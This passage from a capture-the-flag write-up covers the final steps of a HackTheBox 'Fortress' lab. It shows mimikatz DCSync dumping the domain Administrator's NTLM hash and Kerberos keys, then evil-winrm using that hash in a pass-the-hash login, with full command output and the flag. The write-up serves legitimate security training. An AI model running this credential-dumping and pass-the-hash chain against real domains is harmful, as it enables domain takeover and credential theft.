-a----        7/15/2020   8:15 PM             34 flag.txt
-a----        7/29/2020  12:28 PM            188 info.txt
PS C:\Users\Administrator\Documents> type flag.txt
CONTEXT{OU_4bl3_t0_k33p_4_s3cret?}
PS C:\Users\Administrator\Documents> type info.txt
Congrats on completing the Fortress. You've got a direct line to the Recruitment Manager! Title your message - FORTRESS COMPLETED and send to recruitment@contextis.com, alongside your CV.
PS C:\Users\Administrator\Documents>
```

亦或者，可以通过 NTLM 凭据进行攻击

```shell
PS C:\Users\jay.teignton\Documents> .\mimikatz.exe "lsadump::dcsync /user:Administrator" exit

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             (vincent.letoux@gmail.com)
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # lsadump::dcsync /domain:teignton.htb /user:Administrator
[DC] 'teignton.htb' will be the domain
[DC] 'WEB.TEIGNTON.HTB' will be the DC server
[DC] 'Administrator' will be the user account

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
User Principal Name  : Administrator@TEIGNTON.HTB
Account Type         : 30000000 (USER_OBJECT)
User Account Control : 00010200 (NORMAL_ACCOUNT DONT_EXPIRE_PASSWD)
Account expiration   :
Password last change : 12/10/2020 14:34:20
Object Security ID   : S-1-5-21-3174020193-2022906219-3623556448-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 5059c4cf183da02e2f41bb1f53d713cc

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : f0a3bbc4c8a22573685ec11d8b5a76c9

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-K0IK59G7ILOAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 90f5c97ddad9eaf5aa247836e00b7a4c89935258c2a01ce051594cf3cb03798d
      aes128_hmac       (4096) : 466d899b2f855f4f705cb990a427168a
      des_cbc_md5       (4096) : c451bf16c416dce0

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-K0IK59G7ILOAdministrator
    Credentials
      des_cbc_md5       : c451bf16c416dce0
```

使用哈希进行连接

```shell
$ evil-winrm -i 10.13.37.12 -u Administrator -H 5059c4cf183da02e2f41bb1f53d713cc
PS C:\Users\Administrator\Documents> whoami
teignton\administrator
PS C:\Users\Administrator\Documents> type flag.txt
CONTEXT{OU_4bl3_t0_k33p_4_s3cret?}
```

```plaintext title="Flag"
CONTEXT{OU_4bl3_t0_k33p_4_s3cret?}
```
